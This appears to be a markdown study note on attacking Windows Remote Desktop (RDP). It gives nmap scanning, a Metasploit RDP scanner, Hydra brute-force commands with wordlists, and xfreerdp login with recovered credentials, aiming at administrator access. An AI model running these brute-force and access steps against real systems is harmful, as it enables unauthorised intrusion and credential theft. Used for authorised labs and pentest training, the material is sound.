 # Exploiting RDP
> Remote Desktop Protocol (RPD) is a proprietary GUI remote access protocl developed by Microsoft and it is used to remotely connect to and interact with a Windows system.

RDP Default Port: `3389`
- But it can be configured to run on any other TCP port. Therefore be thorough in your port scanning and enumeration.
- Port 3389 is IANA registered for...
  - Microsoft WBT Server, used for Windows Remote Desktop and Remote Assistance connections (RDP - Remote Desktop Protocol).
  - Also used by Windows Terminal Server (`ms-wbt-server`).

## Contents
- [Intro](#intro)
- [Exploit Steps](#exploit-steps)
  - [1. Scan](#1-scan)
  - [2. MetaSploit RDP Scanner](#2-metasploit-rdp-scanner)
  - [3. Brute Force with Hydra](#3-brute-force-with-hydra)
  - [4. RDP Client Access](#4-rdp-client-access)
    - [xfreerdp](#xfreerdp)
    - [Remmina](#remmina)

## Intro
> RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system. 
- And, of course, we'd like to grab the `administrator` creds if possible.

## Exploit Steps

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- If port `3389` is not listed in the results, look around for `ms-wbt-server` and note what port it's running on (that's RDP).
- How could you verify if RDP is running on port 3333?
  - One way is to connect to the target system using an RDP client on port 3333. You can connect, but you'll not have access without user creds.
  - You could also use the MetaSploit RDP scanner...

### 2. MetaSploit RDP Scanner
```
msfconsole
> search rdp_scanner
> use [that module]
> check and set options (target ip and port)
> run (and it should verify if RDP is running on the target port or not)
```

### 3. Brute Force with [Hydra](../../hydra.md)
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target ip] rdp -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip] -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip]:3333
```
- `-s` : service port (if not default)
- Be very careful with your brute-force speed. You could crash the system or DoS it.
  - The `-t` (tasks) options sets the number of connects in parallel (default is 16, for reference)
  - You could set `-t 2` or `-t 3` and see if that plays nicer.  Hydra actually recommends `-t 1` through `-t 4`.
- Once you run hydra you should get some creds to test drive. To do that use...

### 4. RDP Client Access

#### xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[targetip]:3389
```

#### [Remmina](https://remmina.org/)
- Another RDP client for Linux you could use. 
